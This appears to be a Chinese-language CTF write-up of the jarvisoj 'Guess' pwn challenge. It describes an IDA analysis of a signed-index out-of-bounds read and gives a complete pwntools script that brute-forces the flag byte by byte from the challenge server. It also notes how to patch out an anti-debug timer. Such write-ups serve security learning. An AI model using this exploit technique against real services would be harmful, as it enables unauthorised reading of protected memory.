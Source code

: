```yaml
---
layout:     post
title:      jarvisoj Guess
author:     wooy0ung
tags: 		linux elf pwn
category:  	ctf
---
```



### 0x00 introduction

```
Problem Address:
https://www.jarvisoj.com

Problem Description:
你猜，你猜，你猜不到，你猜对了就给你flag

Download:
https://dn.jarvisoj.com/challengefiles/guess.0eff3b4fdf70b3d7c2108758691c9be3

Address:
nc pwn.jarvisoj.com 9878
```
<!-- more -->


### 0x01 IDA分析

```
1. 判断输入字符串flag_hex的长度是否等于100
2. 将unk_401100处数据复制到bin_by_hex
3. flag_hex两个字符为一组作为bin_by_hex的下标，将索引值分别赋值给value1、value2
4. 若value1、value2有一个的值为-1，则程序退出(内存数据以补码形式存储，-1的补码为0xff)
5. given_flag[i] = value2 | 16 * value1
6. 判断flag与given_flag是否相同
```

根据strings定位到handle

![](/assets/img/ctf/pwn/2017-07-21-jarvisoj-guess/0x00.png)

重点关注is_flag_correct，跟进去

![](/assets/img/ctf/pwn/2017-07-21-jarvisoj-guess/0x01.png)

漏洞出现在以下两处

![](/assets/img/ctf/pwn/2017-07-21-jarvisoj-guess/0x02.png)
![](/assets/img/ctf/pwn/2017-07-21-jarvisoj-guess/0x03.png)

再看看栈的布局

![](/assets/img/ctf/pwn/2017-07-21-jarvisoj-guess/0x04.png)

可以根据第一处漏洞传入大于127的字符，溢出成负数，通过第二处漏洞能寻址到真正的flag


### 0x02 最终的exploit


```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *
import sys
import os

context.log_level = 21  # pwntools 的日志等级 , 不输出日志

# 根据真正的flag生成100个字节长度的字符串payload，将value1置0，value2置为flag的对应字符
def get_true_flag_payload():
    offset = (-0x110) - (-0x150)
    base = 0x100 - offset # 0x100 - 0x40 = 0xc0 --> -64
    payload = ""
    for i in range(50):
        payload += "0" + chr(base)
	base += 1
    return payload

# 按照索引index将1个可打印字符的高位数值和低位数值作为2个字符逐一修改payload，实现逐一字节爆破
def get_guess_payload(index, char):
    true_flag_payload = list(get_true_flag_payload())
    high = ("%02x" % char)[0]
    low = ("%02x" % char)[1]
    true_flag_payload[index * 2 + 0] = high
    true_flag_payload[index * 2 + 1] = low
    return ''.join(str(i) for i in true_flag_payload)

def guess_once(payload):
    Io = remote(HOST, PORT)
    Io.readuntil(">")
    Io.sendline(payload)
    response = Io.readline()
    Io.close()
    return ("Yaaaay!" in response)

PROGRESS = ['-', '\\', '|', '/']
FLAG_LENGTH = 50
HOST = "pwn.jarvisoj.com"
PORT = 9878

flag = ""
TOTAL = FLAG_LENGTH * len(string.printable)
GUESSED = 0
for i in range(FLAG_LENGTH):
    for j in string.printable:
        os.system("clear")
        print "[%s] Flag : %s" % (PROGRESS[GUESSED % len(PROGRESS)], flag)
        sys.stdout.write("[+] Guessing (%s%%) : [%s]" %
                      (str(GUESSED * 100.0 / TOTAL), j) + '\r')
        sys.stdout.flush()
        payload = get_guess_payload(i, ord(j))
        GUESSED += 1
        if guess_once(payload):
            GUESSED = i * len(string.printable)
            flag += j
            break
os.system("clear")
GUESSED = TOTAL
print "[+] Flag : %s" % (flag)
```

得到flag

![](/assets/img/ctf/pwn/2017-07-21-jarvisoj-guess/0x05.png)


### 0x03 附：IDA动态调试

handle函数处有一个计时器，一般用作反调试，先nop掉

![](/assets/img/ctf/pwn/2017-07-21-jarvisoj-guess/0x06.png)
![](/assets/img/ctf/pwn/2017-07-21-jarvisoj-guess/0x07.png)
![](/assets/img/ctf/pwn/2017-07-21-jarvisoj-guess/0x08.png)
![](/assets/img/ctf/pwn/2017-07-21-jarvisoj-guess/0x09.png)
![](/assets/img/ctf/pwn/2017-07-21-jarvisoj-guess/0x0a.png)
![](/assets/img/ctf/pwn/2017-07-21-jarvisoj-guess/0x0b.png)

然后attach上去

![](/assets/img/ctf/pwn/2017-07-21-jarvisoj-guess/0x0c.png)
![](/assets/img/ctf/pwn/2017-07-21-jarvisoj-guess/0x0d.png)
![](/assets/img/ctf/pwn/2017-07-21-jarvisoj-guess/0x0e.png)
![](/assets/img/ctf/pwn/2017-07-21-jarvisoj-guess/0x0f.png)